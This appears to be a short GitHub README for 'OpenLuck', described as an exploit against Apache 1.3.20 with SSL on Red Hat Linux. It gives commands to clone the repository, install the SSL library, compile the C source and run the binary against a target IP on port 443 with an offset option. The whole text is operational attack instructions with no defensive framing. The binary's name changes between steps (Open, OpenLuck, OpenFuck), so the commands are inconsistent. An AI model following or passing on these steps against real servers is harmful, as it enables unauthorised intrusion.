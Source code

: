 # OpenLuck

## Usage

1. Download OpenLuck.c
```
git clone https://github.com/anwarbil/Lucky.git
```
2. Install ssl-dev library

```
apt-get install libssl-dev
```

3. It's Compile Time

````
gcc -o Open OpenLuck.c -lcrypto
````

4. Running the Exploit
```
./OpenLuck
```

5. See which service you witch to exploit. For example if you need to Red Hat Linux, using apache version 1.3.20. Trying out using the 0x6a option
./OpenFuck 0x6a [Target Ip] [port] -c 40

for example:
```
./Open 0x6a 192.168.80.145 443 -c 40
```


